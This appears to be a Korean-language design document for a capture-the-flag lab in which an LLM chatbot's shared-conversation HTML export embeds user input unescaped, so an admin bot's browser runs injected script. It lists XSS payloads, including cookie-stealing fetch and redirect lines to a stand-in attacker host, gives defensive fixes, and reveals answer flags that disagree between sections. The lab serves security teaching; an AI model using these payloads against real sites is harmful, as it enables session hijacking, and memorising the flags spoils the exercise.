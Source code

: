# 🧩 CTF 시나리오 05: 부적절한 출력 처리 (Improper Output Handling / XSS)

<br>

## 📌 시나리오 ID

`SCENARIO_05`

## 🧠 시나리오 개요

글로벌 IT 기업 LLL Corporation의 J 대리는 회사에서 도입한 신규 고객 상담 챗봇 ChatLLL을 이용해 타인에게 파일을 공유하려 한다. J 대리는 관리자 봇의 부적절한 출력을 피해, Cross-Site Scripting(XSS)의 취약점을 활용해 쿠키를 탈취해야 한다.

부적절한 출력 처리(Improper Output Handling) 취약점은 웹 애플리케이션이 J 대리의 입력을 적절히 검증하거나 인코딩하지 않고 HTML 문서에 직접 삽입할 때 발생하는 보안 취약점이다. 공격자가 악의적인 JavaScript 코드를 삽입하여 다른 J 대리의 브라우저에서 실행시킬 수 있는 공격 기법이다.

이 시나리오는 대화 내역 저장 기반 챗봇 동작과 HTML 공유 기능 악용이라는 두 구조로 동작한다:

대화 저장 시 컨버세이션 히스토리를 갱신한다. J 대리가 ChatLLL 화면에 메시지를 입력하면, 시스템은 내용을 conversation_history에 그대로 기록해 이후 참조용으로 유지한다.

LLM 호출 시 고객 상담 응답을 생성한다. ctf05_LLM_ask() 함수가 conversation_history의 최신 메시지를 컨텍스트로 사용해 OpenAI GPT-3.5-turbo를 호출하고, 챗봇 답변을 반환한다.

HTML 공유 시 대화 내역을 문서화한다. J 대리가 “HTML 파일 생성하기” 버튼을 누르면 ctf05_generate_share_html() 함수가 전체 대화 내역을 HTML 템플릿에 삽입해 파일로 저장한다. 이때, J 대리의 입력은 이스케이프 처리를 거치지 않고 <div> 내부에 원문 그대로 포함된다.

관리자 봇은 HTML 파일을 자동으로 로드한다. ctf05_admin_bot_visit() 함수가 Headless Chrome을 통해 생성된 HTML 파일을 열어 관리자 검토 과정을 시뮬레이션한다.

XSS 페이로드 실행 시 플래그를 획득할 수 있다. HTML이 로드되는 순간, J 대리 입력에 숨겨져 있던 악성 <script> 코드가 관리자 브라우저에서 실행되어 세션 쿠키 탈취·권한 상승 등이 가능해지며, 조건 충족 시 플래그가 노출된다.

🎯 공략 대상: J 대리는 악성 JavaScript 코드를 다양한 입력 벡터에 삽입하여 악용할 수 있다.

    - 악성 스크립트 삽입: 챗봇에게 <script>alert('XSS')</script> 같은 JavaScript 코드를 포함한 메시지를 전송한다.

    - 쿠키 탈취 페이로드: <script>fetch('http://attacker.com/steal?cookie=' + document.cookie)</script> 같은 코드로 관리자 쿠키를 외부 서버로 전송한다.

    - DOM 조작: <script>document.body.innerHTML = '<h1>Hacked!</h1>'</script> 같은 코드로 HTML 문서를 조작한다.

    - 이미지 태그 활용: <img src=x onerror="alert('XSS')">처럼 이미지 오류 이벤트를 이용한 스크립트 실행도 가능하다.

    - HTML 엔티티 우회: 필터링이 있다면 &lt;script&gt; 같은 HTML 엔티티를 이용해 우회를 시도할 수 있다.

생성된 HTML 파일에서는 admin_session=ctf05_flag 쿠키가 설정되므로, J 대리가 이를 탈취하면 플래그를 획득할 수 있다.

<br>

## 🎯 시나리오 목표

* 사용자 입력을 통한 악성 스크립트 삽입하기

* 공유 HTML 기능을 통해 관리자 봇에게 해당 HTML 열람 유도하기

* XSS 실행 시 `admin_session=ctf05_flag{XSS_1n_5h4r3d_C0nv3r54710n5!}` 쿠키를 탈취하여 외부로 전송하기

<br>

## 🛠️ UI 구성 요소

| 구성 요소 | 설명 |
|-----|-----|
| 👀 헤더 및 문제 설명 | 시나리오 제목, 설명 문구 표현 |
| 📥 프롬프트 입력창 | 사용자가 질문을 입력 |
| 🧪 LLM 응답 출력창 | 시스템 프롬프트에 따라 응답이 다르게 출력 |
| 💬 대화 내용 공유 창 | 대화 내용 공유 |
| 🎯 힌트 보기 버튼 | 버튼 클릭 시 힌트 메시지 표시 (공격 방향 가이드 제공) |
| 🏁 FLAG 제출창 | 획득한 flag를 입력하여 정답 여부 확인 |

<br>

## 💥 공격 흐름 예시
### 1. 공격 기법

| 기법 | 설명 |
|-----------|------|
| `<script>` 삽입 | `<script>alert(1)</script>` 형태로 기본적인 XSS 실행                               |
| 쿠키 탈취         | `<script>location.href='http://attacker.com?c='+document.cookie</script>` |
| 이미지 오류 이벤트    | `<img src=x onerror=alert('XSS')>`                                        |
| HTML 엔티티 우회   | `&lt;script&gt;alert(1)&lt;/script&gt;`                                   |
| DOM 조작        | `<script>document.body.innerHTML='hacked'</script>`                       |

### 2. 동작 흐름

| 단계 | 설명 |
|-----------|------|
| 1  | 사용자가 메시지를 입력하면 `conversation_history`에 저장됨                                            |
| 2  | `ctf05_LLM_ask()` 함수가 GPT-3.5-turbo를 호출해 응답 생성                                        |
| 3  | `ctf05_generate_share_html()` 함수가 대화 내역을 HTML 파일로 변환함. 이때 사용자 입력이 escape되지 않고 그대로 삽입됨 |
| 4  | `ctf05_admin_bot_visit()` 함수가 관리자의 HTML 열람을 헤드리스 브라우저로 시뮬레이션함                         |
| 5  | 악의적 JavaScript가 실행되어 `document.cookie`를 통해 쿠키가 탈취됨 |

### 3. 위협 요소 및 대응 방안

| 위협 | 설명 | 대응 |
|-----------|------|------|
| 세션 쿠키 탈취         | 관리자 인증 우회 가능     | `HttpOnly`, `Secure` 속성 사용      |
| 관리자 권한 탈취        | 민감 정보 접근, 시스템 조작 | 사용자 입력 검증 및 출력 인코딩              |
| JavaScript 임의 실행 | 악성 행위 유도         | CSP(Content Security Policy) 적용 |

### 4. 보안 권장 사항

* 사용자 입력은 반드시 출력 전 `html.escape()` 처리 또는 Jinja2 autoescape 기능 사용
* CSP 적용을 통해 인라인 및 외부 스크립트 제한
* 모든 사용자 입력에 대한 서버 측 필터링 적용
* `HttpOnly`, `Secure` 쿠키 설정으로 브라우저 접근 차단

<br>

## ✅ 테스트 케이스 예시

| 입력 | 기대 응답 |
|-----|-----|
| `안녕하세요`                                                          | 정상 HTML 생성, XSS 없음  |
| `<script>alert(1)</script>`                                      | 관리자 브라우저에서 alert 실행 |
| `<img src=x onerror=alert('XSS')>`                               | 관리자 브라우저에서 alert 실행 |
| `<script>fetch('http://attacker.com?'+document.cookie)</script>` | 쿠키 탈취 가능            |

<br>

## 🧪 Flag 제출 방식

사용자는 획득한 Flag를 다음과 같이 제출합니다:

```bash
flag{llm_xss_success}
```

* 정답 시: `✅ 정답입니다!`
* 오답 시: `❌ 틀렸습니다.`

<br>

## 🔐 모델 요구 조건

* 관리자 브라우저에서 악성 스크립트가 실행되어야 함

* `admin_session` 쿠키를 외부 서버로 전송해야 함

* 플래그: `ctf05_flag{XSS_1n_5h4r3d_C0nv3r54710n5!}`